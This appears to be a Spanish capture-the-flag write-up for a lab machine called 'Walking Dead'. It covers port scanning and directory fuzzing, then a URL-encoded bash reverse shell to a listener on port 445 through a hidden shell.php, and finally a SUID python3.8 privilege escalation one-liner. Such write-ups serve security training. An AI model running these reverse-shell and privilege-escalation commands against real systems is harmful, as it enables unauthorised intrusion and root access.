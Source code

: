 ```yaml
---
description: '✍️ Autor: JuanR🔍 Dificultad: Fácil 📅 Fecha de creación: 13/02/2025'
---
```


# Walking Dead

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1330).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1331).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-26 210100 (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-26 210527.png" alt=""><figcaption></figcaption></figure>

Revisando el código fuente encontramos una carpeta llamado **hidden** con un archivo **shell.php**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-26 210747.png" alt=""><figcaption></figcaption></figure>

Revisamos directorios.

```
gobuster dir -u "http://172.17.0.2/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,html,php
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-26 212212.png" alt=""><figcaption></figcaption></figure>

Nos parece interesante el archivo **backup.txt**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-26 212501.png" alt=""><figcaption></figcaption></figure>

Nos dice que no se pueden listar directorios. Realizamos fuzzing para un parámetro vulnerable.

```bash
 wfuzz -c --hc=404 --hh=0 -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  "http://172.17.0.2/hidden/.shell.php?FUZZ=id"
```

<figure><img src="../../.gitbook/assets/image (1334).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Hacemos una Reverse Shell pero codificamos a URL.

{% embed url="https://www.urlencoder.io/" %}

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%22
```

Nos ponemos en escucha.

```bash
nc -nlvp 445
```

Hacemos tratamiento de la [TTY](https://beafn28.gitbook.io/beafn28/preparar-ejptv2/curso-de-mario/explotacion-vulnerabilidades-web#primeros-pasos-tras-la-intrusion-tratamiento-de-la-tty).

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/image (1335).png" alt=""><figcaption></figcaption></figure>

para ver si hay algo para explotar. No tenemos permisos **SUDO**. Miramos entonces **SUID**.

```
find / -perm -4000 2>/dev/null
```

{% embed url="https://gtfobins.github.io/gtfobins/python/#suid" %}

```
/usr/bin/python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

<figure><img src="../../.gitbook/assets/image (1336).png" alt=""><figcaption></figcaption></figure>
